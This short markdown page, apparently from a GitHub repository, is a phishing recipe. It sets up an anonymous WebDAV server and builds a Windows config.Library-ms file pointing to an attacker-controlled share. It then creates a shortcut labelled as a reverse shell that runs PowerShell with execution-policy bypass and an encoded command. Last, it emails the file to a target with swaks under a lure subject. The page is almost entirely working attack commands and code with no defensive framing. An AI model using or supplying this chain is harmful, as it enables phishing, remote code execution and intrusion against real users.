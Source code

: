 # Config library ms phishing

Require webdav.


## 1. Setup webdav

use 80 port.

```bash
$ pip3 install wsgidav
$ mkdir ~/webdav
$ wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root ~/webdav
```

## 2. make `config.Library-ms` file

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>\\<LHOST_IP>\DavWWWRoot</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

`{7d49d726-3c21-4f05-99aa-fdc2c9474656}` is Documents GUID.

If you make in VIM, just `unix2dos config.Library-ms`.


## 3.Add reverse shell .lnk shortcut

```powershell
$WshShell = New-Object -comObject WScript.Shell
$Shortcut = $WshShell.CreateShortcut("save.lnk")
$Shortcut.TargetPath = "C:\Windows\System32\cmd.exe"
$Shortcut.Arguments = "/c powershell.exe -ep bypass -enc xxx"
$Shortcut.Save()
```

## 4. finally

drop .lnk into webdav.

## Sendmail
```
swaks -t target@manesec.com --from mane@manesec.com --attach @config.Library-ms --server 192.168.XXX.XXX --body body.txt --header "Subject: Sleep is good" -ap
```

